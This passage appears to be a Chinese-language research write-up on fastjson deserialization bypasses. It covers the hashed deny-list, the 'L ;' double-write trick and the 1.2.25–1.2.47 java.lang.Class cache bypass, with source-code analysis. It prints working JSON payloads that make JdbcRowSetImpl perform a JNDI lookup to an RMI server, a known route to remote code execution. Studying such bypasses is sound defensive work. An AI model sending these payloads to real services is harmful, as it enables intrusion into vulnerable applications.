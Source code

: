 将方法hash后与denyHashCodes（黑名单hash表）对比

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20221220173714814.png)

看起来修复了，其实加密hash所用的算法能通过源码看到：

将类添加至字典addDeny:  可以看到使用的加密方法为`TypeUtils.fnv1a_64()`

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20221220174430002.png)

fnv1a_64():

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20221220174614320.png)

github项目，用hash碰撞求出黑名单hash对应的类：https://github.com/LeadroyaL/fastjson-blacklist。结果发现，，并没有JdbcRowSetImpl

poc也只用加双写`L ;`

```json
{"@type":"LLcom.sun.rowset.JdbcRowSetImpl;;", "dataSourceName":"rmi://127.0.0.1:1099/refObj", "autoCommit":true}
```

1.2.43修复：对双写进行了过滤

1.2.45修复：扩充黑名单



## fastjson1.2.25-1.2.47通杀

POC：

```json
{
    "a":{
        "@type":"java.lang.Class",
        "val":"com.sun.rowset.JdbcRowSetImpl"
    },
    "b":{
        "@type":"com.sun.rowset.JdbcRowSetImpl",
        "dataSourceName":"rmi://localhost:1099/refObj",
        "autoCommit":true
    }
}
```

该poc无视checkAutoType，还记得checkAutoType里将方法hash与黑名单hash对比吗，&&后面还加入了`getClassFromMapping()==null`判断

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20221220173714814.png)

* 源码分析：

DefaultJSONParser#parser中调用了MiscCodec#deserialze方法

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20221220192354318.png)在MiscCodec中对类进行了判断，如果为java.lang.Class类，会调用TypeUtils#loadClass来加载恶意类，所以传入类需要为java.lang.Class
